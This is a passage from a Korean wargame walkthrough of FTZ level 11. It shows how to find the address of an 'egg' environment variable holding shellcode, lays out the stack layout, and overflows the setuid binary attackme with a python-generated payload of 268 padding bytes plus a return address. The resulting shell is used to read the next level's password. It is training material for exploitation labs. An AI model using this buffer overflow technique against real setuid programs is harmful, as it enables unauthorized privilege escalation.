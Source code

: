 이제 `getenv.c`프로그램을 통해 `egg`환경 변수의 주소를 확인해보겠습니다.
```
[level11@ftz tmp]$ cat getenv.c
#include <stdio.h>

int main()
{
	printf("0x%x\n",getenv("egg"));
}

[level11@ftz tmp]$ gcc -o getenv getenv.c   
[level11@ftz tmp]$ ./getenv
0xbffffdc8
```
`egg` 환경변수의 주소가 `0xbffffdc8`임을 알 수 있습니다. 이제 이것이 `ret`에 들어가도록 `attackme`를 실행하면 될 것입니다.


#### **프로그램 실행**

위에서 살펴본 스택의 메모리 구조입니다.

__256(buffer) + 8 (dummy) + 4 (sfp: 이전 함수의 base pointer) + 4 (ret :return address - 이전 함수로의 return address)__  


이제 버퍼의 268바이트에 `\x90`이 들어가고, 나머지 4바이트에 위에서 구한 `egg`의 주소값 `0xbffffdc8`이 들어가도록 하면 됩니다.  리틀엔디안 (Little-endian) 임을 감안해서 역순으로 적어줍니다.
 _참고 - 여기서 `\x90`는 그냥 버퍼를 채우기 위한 용도이므로, `\x90` 대신에 1바이트짜리 아무 값이나 넣어도 상관없습니다._

실행해봅니다.  

```
[level11@ftz tmp]$ cd ~
[level11@ftz tmp]$ ./attackme `python -c 'print "\x90"*268+"\xc8\xfd\xff\xbf"'`                    
sh-2.05b$
```

정상적으로 실행됩니다.
```
sh-2.05b$ my-pass
TERM environment variable not set.

Level12 Password is "it is like this".

sh-2.05b$
```  

**끝**
